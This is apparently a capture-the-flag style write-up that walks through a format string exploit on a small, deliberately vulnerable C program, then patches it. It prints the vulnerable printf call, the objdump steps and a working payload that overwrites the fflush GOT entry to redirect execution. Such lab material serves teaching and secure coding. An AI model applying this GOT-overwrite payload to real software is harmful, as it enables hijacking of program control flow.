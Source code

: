Let's take a look at the source code...

```
#include <stdlib.h>
#include <stdio.h>

void fire_exit()
{
	printf("Oh look, a fire exit. That's why we are still under budget. Level Cleared \n");
}

void fun0()
{
	puts("Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.\n");
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);
	fflush(stdout);
}

int main()
{
	fun0();
}
```

So looking at this code, we see that the objective is to run the fire_exit function. However there isn't anywhere in the code that directly calls thay function. However after the insecure printf call, we can see a fflush() function call. We can craft a format string exploit to overwrite the address of the fflush variable with that of the fire_exit() function, thus when when the binary tries to run the fflush function it will just run the fire_exit() function. First thing we will need is the address of the fire_exit() function.

```
$ objdump -t f4 | grep fire_exit
0804853b g     F .text	00000019              fire_exit
```

So we now have the address of the fire_exit() function, which is 0x0804853b. Now we need to find the address of the fflush function. Since fflush is in libc (which is a shared library), we can view it in the dynamic relocation with objdump (using the -R flag).

```
$	objdump -R f4 | grep fflush
0804a010 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

So now we have the address of the fflush function, which is 0x804a010, we now need to find out where our input is stored on the stack. It shouldn't be too far away.

```
$	python -c 'print "0000" + ".%x"*20' | ./f4
Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.

0000.64.f7faf5a0.f0b5ff.ffffcffe.1.30303030.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825
$	python -c 'print "0000" + "%6$x"' | ./f4
Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.

000030303030
```

So we now know our input is stored 6 DWORDS away. Let's try to overwrite the address of the fflush function without any regards as to what we overwrite it with, as a proof of concept.

```
$ python -c 'print "\x10\xa0\x04\x08" + "%6$n"' > payload
```

and now onto gdb

```
gdb-peda$ r < pwn_concept
```

One more wall of text later...

```
Stopped reason: SIGSEGV
0x00000004 in ?? ()
```

So we can see that the program tried to execute an instruction at the address 0x00000004, and because that is not a valid address we got the SIGSEV error. So we proved that we can overwrite the value, and since we only wrote a 32 hex bit address (which are only four bytes) printf wrote the decimal value 4 to the location since the -n flag will write for how many bytes we give it. To write the address we will need to, we will just need to take the address 0x0804853b, subtract 4 from it and write as many bytes as we get from that difference using the -x flag.

```
>>> 0x0804853b - 4
134513975
```

So we will need to write 134513975 bytes in order to get the write address. Let's try it!

```
$	python -c 'print "\x10\xa0\x04\x08" + "%134513975x" + "%6$n"' | ./f4
```

One wall of text later...

```
Oh look, a fire exit. That's why we are still under budget. Level Cleared 
```  

And just like that, we pwned the binary. Now let's patch it.

```
#include <stdlib.h>
#include <stdio.h>

void fire_exit()
{
	printf("Oh look, a fire exit. That's why we are still under budget. Level Cleared \n");
}

void fun0()
{
	puts("Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.\n");
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf("%s\n", buf0);
	fflush(stdout);
}

int main()
{
	fun0();
}
```

As you can see, the char array buf0 is now being formatted as a string when it's printed, so we should no longer be able to execute a format string exploit. Let's test it!

```
python -c 'print "%x.%x.%x.%x.%x"' | ./f4_secure 
Oh I almost forgot to mention, due to budget cuts we decided to get rud if tge exit. Just think of all of the security research we can do now!. And by we, I mean you.

%x.%x.%x.%x.%x
```

And just like that, we patched the binary!